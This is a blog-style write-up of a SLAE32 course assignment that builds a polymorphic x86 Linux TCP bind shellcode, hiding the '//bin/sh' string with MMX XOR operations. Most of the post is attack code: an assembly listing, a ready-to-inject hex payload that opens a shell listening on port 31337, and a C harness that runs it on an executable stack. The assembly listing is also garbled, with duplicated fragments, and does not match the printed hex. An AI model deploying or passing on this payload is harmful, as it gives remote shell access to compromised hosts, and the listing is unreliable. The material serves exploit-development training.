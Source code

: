 ```yaml
---
title: SLAE32 Assignment 6 -- Polymorphic MMX TCP Bind Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```




For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org. A polymorphic shellcode means that it uses different instructions to deliver the same payload.  
For example, all of these instructions will result in the same action within a program.
```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```
The first shellcode I modified was "tcpbindshell (108 bytes)", created by Russell Willis.  
This shellcode can be found at http://shell-storm.org/shellcode/files/shellcode-847.php.  

The original shellcode length was 108 bytes. Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value. The final length of this polymorphic shellcode is 144 bytes.  
To push the filename string "//bin/sh" onto the stack, I used the MMX registers.  

```nasm
global _start
_start:
xor    eax,eax
xor    ebx,ebx
xor    ecx,ecx
xor    edx,edx
mov    al,0x66
mov    bl,0x1
push   ecx
push   0x6
push   0x1
push   0x2
mov    ecx,esp
int    0x80
mov    esi,eax
mov    al,0x66
mov    bl,0x2
push   edx
pushw  0x697a
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80
mov    al,0x66
mov    bl,0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80
mov    al,0x66
mov    bl,0x5
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
int    0x80
        mov eax, edi    ; EAX = 0x66 used for socketcall SYSCAL
        inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80

; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
dup2Loop:
        dec ecx
mov    al,0x3f
int    0x80
jne    dup2Loop

push   edx
        mov edx, 0xffffffff             ; will be used to XOR the MM0 Register to result in "//bin/sh"
    mov eax, 0x978cd091             ; "n/sh" XOR'd with 0xffffffff
        ;   mov eax, 0x68732f6e             ; "n/sh"
    movd mm0, eax
    psllq mm0, 32                   ; shift the mm0 register left by 4 bytes
    mov ebx, 0x969dd0d0             ; "//bi" XOR'd with 0xffffffff
        ;   mov ebx, 0x69622f2f             ; "//bi"
    movd mm1, ebx
    paddb mm0, mm1                  ; now mm0 hold the 8 byte XOR'd "//bin/sh"
    movd mm1, edx                   ; mm1 is now 0xffffffff
    psllq mm1, 32                   ; mm1 is now 0xffffffff00000000
    movd mm2, edx                   ; mm2 us biw 0xffffffff
    paddb mm1, mm2                  ; mm1 is now 0xffffffffffffffff
    pxor mm0, mm1                   ; XOR's mm0 with mm1 and saves the results in mm0
    sub esp, 8                      ; Decrement the stack 8 bytes
    movq qword [esp], mm0           ; push "//bin/sh" from mm0 to the top of the stack

xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80
```  

I compiled and linked the shellcode. Then I used object dump to extract the hex.  
```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 
I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
I then compiled the C program.  
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```




